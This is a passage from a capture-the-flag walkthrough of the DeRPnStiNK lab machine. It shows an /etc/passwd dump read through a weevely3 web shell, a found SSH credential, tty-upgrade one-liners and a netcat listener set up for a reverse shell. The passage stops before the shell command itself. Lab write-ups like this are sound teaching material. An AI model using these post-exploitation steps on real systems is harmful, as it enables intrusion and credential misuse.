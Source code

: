 Where to use it then? Let's see which users we have in `/etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
usbmux:x:103:46:usbmux daemon,,,:/home/usbmux:/bin/false
dnsmasq:x:104:65534:dnsmasq,,,:/var/lib/misc:/bin/false
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
kernoops:x:106:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
rtkit:x:107:114:RealtimeKit,,,:/proc:/bin/false
saned:x:108:115::/home/saned:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
avahi:x:111:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
lightdm:x:112:118:Light Display Manager:/var/lib/lightdm:/bin/false
colord:x:113:121:colord colour management daemon,,,:/var/lib/colord:/bin/false
hplip:x:114:7:HPLIP system user,,,:/var/run/hplip:/bin/false
pulse:x:115:122:PulseAudio daemon,,,:/var/run/pulse:/bin/false
mysql:x:116:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:117:65534::/var/run/sshd:/usr/sbin/nologin
stinky:x:1001:1001:Uncle Stinky,,,:/home/stinky:/bin/bash
ftp:x:118:126:ftp daemon,,,:/srv/ftp:/bin/false
mrderp:x:1000:1000:Mr. Derp,,,:/home/mrderp:/bin/bash
```

Hmm, `stinky`, `unclestinky`. I hardly guess that's the same guy. When I try to login via *SSH* with `stinky:wedgie57` I only get ` stinky@derpnstink.local: Permission denied (publickey). `. We don't have one...  
But! There is the command `su`, with that we are able to switch our identity on the system (terminal based access). When we enter that in our *weevely3* shell it results in an error: `su: must be run from a terminal`. So we need a valid `tty` shell. To check if we are on `tty` just simply enter `tty`:
```
www-data@DeRPnStiNK:/var/www/html/weblog/wp-content/uploads/slideshow-gallery $ tty
not a tty
```
I did not manage to get a proper `tty` terminal inside *weevely3*, neither with `python -c 'import pty; pty.spawn("/bin/sh")'` nor with `/bin/sh -i`. If you want a list of some commands to spawn a `tty` shell look [here](https://netsec.ws/?p=337).  
I got some help from [@eiphunt3r](https://twitter.com/eiphunt3r), he mentioned [this article](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) to gain a tty shell with `socat`. Problem: there is no `socat` on the target machine, also the static binary won't work. `nc` is installed to get a reverse shell, but it's the verson without the option `-e`. Bad, bad. Wait, help is on the way! I found [this article](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/) regarding a workaround for the missing `-e` parameter. Using it:
first spawn up a listener on your machine: `nc -lvp 4444`. Then throw that command to your *weevely3* shell: